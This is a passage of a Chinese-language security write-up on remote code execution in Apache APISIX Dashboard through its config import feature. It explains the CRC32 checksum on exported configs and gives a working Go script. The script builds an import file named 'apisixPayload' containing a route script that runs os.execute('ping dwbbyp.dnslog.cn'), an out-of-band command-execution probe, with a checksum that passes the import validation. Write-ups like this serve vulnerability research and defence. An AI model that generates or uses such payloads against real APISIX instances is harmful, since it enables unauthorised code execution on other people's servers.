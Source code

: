- 计算checksum的值

  导出的配置文件中其实我们可以清楚的发现，其中还存在四个字符

  ![image-20220308111315111](https://gitee.com/greetdawn/blogImages/raw/master/img/202203081113095.png)

  利用官方源码，计算`checksum`的值

  找到对应的位置为：`apisix-dashboard-master\api\internal\handler\migrate\migrate.go` 函数`ExportConfig`

  `https://github.com/apache/apisix-dashboard/blob/561ed377ec2237707bb8c78623e336360c6c6463/api/internal/handler/migrate/migrate.go#L52`

  ![image-20220308111816860](https://gitee.com/greetdawn/blogImages/raw/master/img/202203081118905.png)

  抽离出如下计算`checksum`的脚本

  ```go
  package main
  
  import (
      "encoding/binary"
      "fmt"
      "hash/crc32"
      "io/ioutil"
      "os"
  )
  func main() {
      gen()
  }
  func gen() {
      data := []byte(`{"Counsumers":[],"Routes":[{"id":"397919338339762880","create_time":1646708008,"update_time":1646708008,"uris":["/greetdawnrce2"],"name":"greetdawnrce2","methods":["GET","POST","PUT","DELETE","PATCH","HEAD","OPTIONS","CONNECT","TRACE"],"script":"os.execute('ping dwbbyp.dnslog.cn')","script_id":"397919338339762880","upstream_id":"397811130833044159","status":1}],"Services":[],"SSLs":[],"Upstreams":[{"id":"397811130833044159","create_time":1646643511,"update_time":1646643511,"nodes":[{"host":"192.168.32.132","port":3000,"weight":1}],"timeout":{"connect":6,"read":6,"send":6},"type":"roundrobin","scheme":"http","pass_host":"pass","name":"greetdawn"}],"Scripts":[{"id":"397919338339762880","script":"os.execute('ping dwbbyp.dnslog.cn')"}],"GlobalPlugins":[{"id":"1","create_time":1646646463,"update_time":1646649397,"plugins":{"batch-requests":{"disable":false}}}],"PluginConfigs":[]}`)
      checksumUint32 := crc32.ChecksumIEEE(data)
      checksumLength := 4
      checksum := make([]byte, checksumLength)
      binary.BigEndian.PutUint32(checksum, checksumUint32)
      fileBytes := append(data, checksum...)
  
      content := fileBytes
      fmt.Println(content)
  
      importData := content[:len(content)-4]
      checksum2 := binary.BigEndian.Uint32(content[len(content)-4:])
      if checksum2 != crc32.ChecksumIEEE(importData) {
          fmt.Println(checksum2)
          fmt.Println(crc32.ChecksumIEEE(importData))
          fmt.Println("Check sum check fail, maybe file broken")
          return
      }
      err := ioutil.WriteFile("apisixPayload", content, os.ModePerm)
      if err != nil {
          fmt.Println("error!!")
          return
      }
  }
  ```


[官方文档]: https://apisix.apache.org/docs/apisix/architecture-design/script/